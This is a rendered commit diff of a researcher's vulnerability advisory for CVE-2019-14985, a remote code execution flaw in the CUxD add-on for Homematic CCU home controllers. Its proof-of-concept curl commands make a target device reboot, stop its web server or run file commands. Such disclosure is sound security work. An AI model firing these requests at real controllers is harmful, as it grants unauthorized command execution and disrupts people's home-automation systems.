

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/CVEs/2019-08-12-CVE-2019-14985.md, in a window 1280 px wide and 1400 px high, scrolled down 407 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2019-08-12-CVE-2019-14985.md

````diff
--- a/_posts/hacking_and_pentests/CVEs/2019-08-12-CVE-2019-14985.md
+++ b/_posts/hacking_and_pentests/CVEs/2019-08-12-CVE-2019-14985.md
@@ -25,7 +25,7 @@
   - Developer of 'CUxD' AddOn contacted: 02.04.2019
   - Developer of 'CUxD' AddOn confirmation: 04.04.2019
   - 'CUxD' AddOn patch: N.A.
-  - Affected 'CUxD' AddOn version: 2.3.3 and prior
+  - Affected 'CUxD' AddOn version: 2.3.4 and prior
 - Affected Firmware version of CCU2: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7, 2.47.10, 2.47.12, 2.47.15 tested
 - Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7, 3.47.10, 3.47.15 tested
 
@@ -56,15 +56,16 @@
 1. RCE with Homematic undocumented URL ending with ".exe" if lighttpd proxy.conf is not protected against remote call of "*.exe" URLs:<br>
 
 ```
-curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
-curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
-curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
+curl -X POST -i 'http://1.2.3.4/UriHasToEndWithSuffix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
+curl -X POST -i 'http://1.2.3.4/UriHasToEndWithSuffix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
+curl -X POST -i 'http://1.2.3.4/UriHasToEndWithSuffix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
 ```
-2. RCE with an AddOn providing unprotected exec.cgi script like ['XML-API' AddOn](https://github.com/jens-maus/XML-API/issues/29) published in [CVE-2019-14984](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14984) or other popular AddOns like<br>
-[HM-Print](https://github.com/litti/hm-print/issues/4),
-<br>[HM-Email](https://github.com/jens-maus/hm_email/issues/11) or<br>
-[Script Parser](https://github.com/litti/scriptparser/issues/4):<br>
-
+2. RCE with an AddOn providing unprotected exec.cgi script like ['XML-API' AddOn](https://github.com/jens-maus/XML-API/issues/29) published in [CVE-2019-14984](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14984)<br>
+or other popular AddOns like:<br>
+[HM-Print](https://github.com/litti/hm-print/issues/4) published in [CVE-2019-18939](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18939)<br>
+[HM-Email](https://github.com/jens-maus/hm_email/issues/11) published in [CVE-2019-18938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18938)<br>
+[Script Parser](https://github.com/litti/scriptparser/issues/4) published in [CVE-2019-18937](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18937)<br>
+Those CVEs are combined with this attack vector:
 
 ```
 curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
````
Also changed, not shown: other parts of _posts/hacking_and_pentests/CVEs/2019-08-12-CVE-2019-14985.md (+1 -1 lines).
